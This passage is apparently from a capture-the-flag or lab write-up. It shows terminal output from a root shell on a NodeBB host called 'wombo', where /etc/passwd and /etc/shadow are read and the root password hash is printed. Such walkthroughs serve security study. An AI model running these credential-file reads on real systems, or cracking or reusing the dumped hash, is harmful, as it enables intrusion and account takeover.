        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 754  bytes 65092 (63.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1  (Local Loopback)
        RX packets 8376  bytes 874254 (853.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8376  bytes 874254 (853.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@wombo:~# 

```


```
cd /home
cd /home
root@wombo:/home# ls
ls
root@wombo:/home# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
mongodb:x:106:65534::/home/mongodb:/bin/false
nodebb:x:1000:1000::/home/nodebb:
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
root@wombo:/home# cat /etc/shadow
cat /etc/shadow
root:$6$fpSYwljM$YcBjZjWYR2mdWyBvkY/Zu21X7x83z9TZ6TxLRZ86LmQcxRZS4CEaMe.blsZkK22cMdu4SoMC5LfN00PTB0Hyk.:18376:0:99999:7:::
daemon:*:18374:0:99999:7:::
bin:*:18374:0:99999:7:::
sys:*:18374:0:99999:7:::
sync:*:18374:0:99999:7:::
games:*:18374:0:99999:7:::
man:*:18374:0:99999:7:::
lp:*:18374:0:99999:7:::
mail:*:18374:0:99999:7:::
news:*:18374:0:99999:7:::
uucp:*:18374:0:99999:7:::
proxy:*:18374:0:99999:7:::
www-data:*:18374:0:99999:7:::
backup:*:18374:0:99999:7:::
list:*:18374:0:99999:7:::
irc:*:18374:0:99999:7:::
gnats:*:18374:0:99999:7:::
nobody:*:18374:0:99999:7:::
systemd-timesync:*:18374:0:99999:7:::
systemd-network:*:18374:0:99999:7:::
systemd-resolve:*:18374:0:99999:7:::
systemd-bus-proxy:*:18374:0:99999:7:::
_apt:*:18374:0:99999:7:::
messagebus:*:18374:0:99999:7:::
mongodb:*:18376:0:99999:7:::
nodebb:!:18376:0:99999:7:::
sshd:*:18382:0:99999:7:::
root@wombo:/home# 

```